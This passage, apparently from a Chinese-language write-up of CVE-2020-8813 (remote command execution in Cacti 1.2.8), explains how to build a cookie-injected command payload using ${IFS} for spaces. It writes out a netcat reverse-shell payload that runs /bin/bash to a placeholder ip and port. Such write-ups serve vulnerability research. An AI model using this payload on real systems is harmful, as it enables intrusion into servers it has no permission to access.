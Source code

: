 ### payload编写

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写"会话友好"
"，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个Cookie值。

例如，如果我对字符串" Hi
Payload"进行编码并将其传递给应用程序，我将得到以下信息：

![](./resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId33.png)

![](./resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId34.png)

如我们所见，该应用程序为我们设置了一个cookie而不是我们注入的cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用" \$ {IFS}"
bash变量来表示空格的想法。

当然，我们需要使用";"转义命令 如下所示：

    ;payload

如果要使用netcat获得外壳，则需要创建以下有效负载：

    ;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![](./resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId35.png)
